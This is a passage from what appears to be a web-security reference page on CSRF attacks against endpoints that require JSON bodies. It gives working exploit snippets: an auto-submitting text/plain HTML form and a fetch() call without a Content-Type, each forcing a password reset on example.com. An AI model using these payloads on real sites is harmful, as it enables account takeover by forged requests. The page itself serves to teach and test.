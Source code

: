 One common problem is the server requiring a `Content-Type: application/json` body as a request to your sensitive endpoint. Exploiting this is non-trivial, but there are some edge cases where it is possible:

1. The server can also parse `Content-Type: application/x-www-form-urlencoded` data, and you can transform the JSON into such fields. Potentially creating arrays with duplicate parameters or `param[]=`, and creating objects with `obj[key]=value` syntax.
2. The server accepts `Content-Type: text/plain` with a JSON body, which can be created in a form like this:

{% code title="Exploit HTML" overflow="wrap" %}
```html
<form id=form action="https://example.com/reset_password" method="POST" enctype="text/plain">
  <input type="text" name='{"password":"hacked","dummy":"' value='"}'>
</form>
<script>form.submit();</script>
```
{% endcode %}

By putting arbitrary JSON data in the name/value, we can make the mandatory `=` separator part of a dummy string. To the server, this may look like a valid body and it even works with a top-level context.

<pre class="language-http" data-title="Request"><code class="lang-http">POST /reset_password HTTP/1.1
Host: example.com
<strong>Content-Type: text/plain
</strong>
{"password":"hacked","dummy":"="}
</code></pre>

3. The server accepts _missing Content-Type_ with a JSON body ([source](https://nastystereo.com/security/cross-site-post-without-content-type.html)):

{% code title="Exploit JavaScript" %}
```javascript
fetch("https://example.com/reset_password", {
  method: "POST",
  body: new Blob(['{"password":"hacked"}'])
});
```
{% endcode %}

This will send a request without a `Content-Type:` header. The server might then default to JSON and successfully parse your body:

{% code title="Request" %}
```http
POST /reset_password HTTP/1.1
Host: example.com

{"password":"hacked"}
```
{% endcode %}

4. Confuse the parser with a charset that looks like the JSON content type. Using `fetch()` it is possible to add a `;charset=` to the `Content-Type` header with very lax parsing. Read the research below for details:
